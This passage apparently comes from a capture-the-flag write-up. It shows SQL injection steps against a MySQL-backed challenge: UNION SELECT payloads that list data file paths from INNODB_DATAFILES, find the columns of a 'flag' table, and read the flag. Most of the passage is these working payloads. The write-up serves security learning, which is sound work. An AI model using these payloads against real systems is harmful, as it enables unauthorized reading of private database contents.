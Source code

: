 - **Can also use the INNODB_DATAFILES technique:**
**union all select 1,group_concat(PATH,"\n"),3,4 from information_schema.INNODB_DATAFILES**

- Query columns:

```bash
UNION SELECT 1,group_concat(column_name),3,4 from information_schema.columns where table_name = "flag"

```

![image34](../resources/53932b23a18c4e5e8369235ace11ff60.png)

- Get flag:

```bash
UNION SELECT 1,group_concat(flag),3,4 from flag

```

![image35](../resources/87f3fb976e5746da9c0374f4e63ca686.png)